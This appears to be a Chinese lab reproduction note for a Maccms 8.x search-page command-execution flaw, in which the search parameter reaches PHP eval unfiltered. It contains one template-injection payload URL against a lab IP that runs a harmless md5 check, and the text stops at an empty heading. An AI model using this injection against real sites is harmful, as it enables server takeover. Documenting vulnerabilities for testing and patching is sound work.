



# maccms8命令执行漏洞

### 1.1、漏洞描述

Maccms搜索页面搜索输入参数过滤不严谨导致前台命令执行可getshell

该漏洞主要的产生原因是CMS搜索页面搜索参数过滤不严导致直接eval执行PHP语句。

### 1.2、影响版本

Maccms8.x

### 1.3、漏洞复现

#### 1、基础环境

环境地址：https://github.com/yaofeifly/Maccms8.x?tab=readme-ov-file

---

#### 2、漏洞扫描

Payload:` http://10.9.75.20/index.php?m=vod-search&wd={if-A:printf(md5(827036698))}{endif-A}`

#### 3、漏洞验证

漏洞点：http://10.9.75.20/index.php?m=vod-search

### 